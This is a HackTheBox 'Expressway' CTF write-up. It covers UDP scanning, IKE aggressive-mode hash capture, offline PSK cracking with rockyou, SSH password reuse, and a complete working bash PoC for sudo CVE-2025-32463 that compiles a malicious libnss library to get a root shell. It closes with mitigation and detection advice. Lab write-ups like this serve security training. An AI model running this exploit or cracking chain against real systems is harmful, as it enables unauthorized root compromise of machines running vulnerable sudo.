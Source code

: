 # Expressway 

```
Difficulty: Easy
Operating System: Linux
Hints: True
```

**⚠️ Notice:
This challenge is currently active on HackTheBox.
In accordance with HackTheBox's content policy, this writeup will be made publicly available only after the challenge is retired.**

<!--

#### 🏁 Summary of Attack Chain — **Expressway**

| Step | User / Access  | Technique Used                                                                   | Result                                                                                                                  |
| :--- | :------------- | :------------------------------------------------------------------------------- | :---------------------------------------------------------------------------------------------------------------------- |
| 1    | (Local)        | Nmap TCP & UDP scanning (`nmap -sVC`, `nmap -sU --top-ports 100`)                | TCP showed only SSH; UDP exposed IKE/IPsec (UDP 500, 4500) and TFTP.                                                    |
| 2    | (Remote / IKE) | IKE enumeration (`ike-scan -M --aggressive`)                                     | Captured Aggressive-Mode handshake, including `ID=ike@expressway.htb` and a verification hash / context.                |
| 3    | (Local)        | Offline PSK cracking (`psk-crack` or `hashcat -m 530`) against the captured blob | PSK recovered (weak/human password from wordlist).                                                                      |
| 4    | ike            | Password reuse / credential use                                                  | Used cracked PSK as login credential (SSH / VPN) and obtained a shell as `ike` (user flag).                             |
| 5    | ike            | Local enumeration (`sudo --version`, system info)                                | Identified `sudo` version **1.9.17** — vulnerable to **CVE-2025-32463** (chroot/NSS abuse).                             |
| 6    | ike            | Craft PoC payload (malicious `libnss` shared object + chroot tree)               | Built `kai_ht.c` -> `libnss_/kai_ht.so.2` and prepared `pentest` chroot with `etc/nsswitch.conf` pointing to `/kai_ht`. |
| 7    | ike → root     | Exploit: abuse `sudo -R` chroot handling (PoC script)                            | `sudo -R pentest pentest` triggers the malicious library initializer, escalating to root (root shell).                  |
| 8    | root           | Post-exploit / flag retrieval                                                    | Read `root.txt` and completed full compromise.                                                                          |



> Quick summary

> TCP looked quiet (only SSH), UDP revealed IKE/IPsec. IKE Aggressive Mode + PSK → offline crackable hash → PSK reused as SSH credential. From user shell, sudo was vulnerable (CVE-2025-32463) and a chroot-based PoC escalated to root.

![Map](Pictures/htb_expressway_Mind_Map.png)

---

# Recon

## TCP scan (nmap)

```
nmap -sVC 10.10.11.87

Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-21 00:22 CEST

Nmap scan report for 10.10.11.87
Host is up (0.033s latency).

Not shown: 999 closed tcp ports (reset)

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 8 (protocol 2.0)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> Only SSH on TCP — don’t stop here.

---

## UDP scan (nmap — top 100)

```
nmap -sU --top-ports 100 10.10.11.87

Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-21 00:23 CEST

Nmap scan report for 10.10.11.87
Host is up (0.15s latency).

Not shown: 96 closed udp ports (port-unreach)

PORT     STATE         SERVICE
68/udp   open|filtered dhcpc
69/udp   open|filtered tftp
500/udp  open          isakmp
4500/udp open|filtered nat-t-ike
```

**Notes:** UDP/500 and 4500 indicate IKE/IPsec. UDP/69 (TFTP) might host configs or backups — keep in mind for later.

---

## IKE enumeration (ike-scan)

```
ike-scan -M 10.10.11.87

10.10.11.87    Main Mode Handshake returned
        HDR=(CKY-R=04ec1a9db3726275)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
        VID=09002689dfd6b712 (XAUTH)
        VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)
```

Aggressive mode:

```
ike-scan -M --aggressive 10.10.11.87

10.10.11.87    Aggressive Mode Handshake returned
        HDR=(CKY-R=261e81de0f8d9a62)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
        KeyExchange(128 bytes)
        Nonce(32 bytes)
        ID(Type=ID_USER_FQDN, Value=ike@expressway.htb)
        VID=09002689dfd6b712 (XAUTH)
        VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)
        Hash(20 bytes)
```

**Why this matters**

* Aggressive Mode leaks enough (ID + Hash + params) to compute a verification hash that depends on the PSK.
* With the captured handshake + correct ID, you can brute-force the PSK offline.

---

# Offline PSK cracking

1. Dump the Aggressive-mode blob (include `--id=ike@expressway.htb`) with `ike-scan`.
2. Use `psk-crack` or `hashcat` (IKE Aggressive Mode PSK — hashcat mode **530**) against the blob.
3. Wordlists + rules (e.g., `rockyou + best64`) are effective against human PSKs.

Example run (from notes):

```
ike-scan -M --aggressive --id=ike@expressway.htb 10.10.11.87 --pskcrack=psk.txt
psk-crack -d /usr/share/wordlists/rockyou.txt psk.txt
# result: key "freak<PASS>" matches SHA1 hash ...
```

![IKE](Pictures/htb_expressway_ike.png)
![Password_Cracking](Pictures/htb_expressway_ike_pass.png)

**Operational tip:** If the PSK cracks, try it against likely usernames found during enumeration (e.g., `ike`); password reuse is common.

---

# Achieve user shell

* Use cracked PSK as SSH credential (or as VPN credential to get further access).
* Retrieve `user` flag and system data.

![User_flag](Pictures/htb_expressway_user_flag.png)

---

# Privilege escalation — local (Expressway)

## Sudo info

```
ike@expressway:~$ sudo --version
Sudo version 1.9.17
```

![Sudo](Pictures/htb_expressway_sudo.png)

**Vulnerability:** Sudo 1.9.17 is vulnerable to **CVE-2025-32463** (chroot-related privilege escalation). The vulnerable behavior allows abusing `sudo -R` chroot handling to load a malicious `libnss` style shared object that runs code as root.

---

## Exploit overview (PoC summary)

* Build a malicious shared object with an `-init` function that sets UID/GID to 0 and spawns a shell.
* Create a fake `pentest` chroot tree with a custom `etc/nsswitch.conf` pointing to the malicious library (`/kai_ht`) and a placed `libnss_/kai_ht.so.2`.
* Invoke `sudo -R pentest pentest` to trigger the chroot handling path and execute the initializer in the shared object as root.
* Cleanup temporary files.

**High-level steps**

1. Prepare temp staging directory.
2. Create `kai_ht.c` with initializer that sets UID/GID → 0 and execs `/bin/bash`.
3. Build `libnss_/kai_ht.so.2` (shared, `-fPIC`, `-Wl,-init,woot`).
4. Provide `pentest/etc/nsswitch.conf` that references `/kai_ht`.
5. Run `sudo -R pentest pentest`. If successful, get root shell and `cat /root/root.txt`.

---

## PoC script (`exp.sh`)

```bash
#!/bin/bash

# CVE-2025-32463 PoC - Sudo Chroot Privilege Escalation
# Based on research by Rich Mirch @ Stratascale Cyber Research Unit

STAGE=$(mktemp -d /tmp/pentest.stage.XXXXXX)
cd ${STAGE?} || exit 1

cat > kai_ht.c<<'CEOF'
#include <stdlib.h>
#include <unistd.h>

void woot(void) {
    setreuid(0,0);
    setregid(0,0);
    chdir("/");
    execl("/bin/bash", "/bin/bash", NULL);
}
CEOF

mkdir -p pentest/etc libnss_
echo "passwd: /kai_ht" > pentest/etc/nsswitch.conf
cp /etc/group pentest/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/kai_ht.so.2 kai_ht.c

echo "[*] Exploiting CVE-2025-32463..."
echo "[*] Attempting privilege escalation..."
sudo -R pentest pentest

# Cleanup
rm -rf ${STAGE?}
```

**Usage**

```bash
chmod +x exp.sh
./exp.sh
```

![Priviledge_Escalation](Pictures/htb_expressway_PE.png)


# If successful:
```
cat /root/root.txt
```

![Root_Flag](Pictures/htb_expressway_Root_flag.png)

---

# TL;DR & Takeaways

* **Don’t stop at TCP.** UDP can expose services (IKE/TFTP/DHCP) that lead to full compromise.
* **IKEv1 Aggressive Mode + PSK = offline cracking opportunity.** Capture the handshake with `ike-scan --aggressive --id=<id>` and crack it offline (psk-crack or hashcat m=530).
* **Password reuse is real.** Cracked PSKs often work as remote user credentials.
* **Check local sudo versions** — old/vulnerable sudo builds (like 1.9.17 here) can be escalated with chroot/NSS abuse (CVE-2025-32463).
* **Blue-team mitigation:** disable IKEv1 Aggressive Mode; use IKEv2 w/ certs; use long random PSKs; avoid PSK reuse; upgrade sudo and audit chroot handling; monitor `sudo -R`/chroot use and unexpected shared-library loads.

---

# Suggested mitigations & detection (brief)

**Mitigations**

* Use IKEv2 with certificate authentication instead of IKEv1 Aggressive + PSK.
* Enforce long, high-entropy PSKs and rotate them; never reuse VPN PSKs as user passwords.
* Patch sudo to a version that fixes CVE-2025-32463; apply vendor patches.
* Harden TFTP/other UDP services or disable if unused.

**Detection**

* Monitor for unexpected `sudo -R` usage or `sudo` invocations that reference chroot paths.
* Alert on unexpected creation of `libnss_*` libraries in user-writable directories.
* Monitor for high volumes of IKE Aggressive-mode attempts and Aggressive-mode handshakes.

---

-->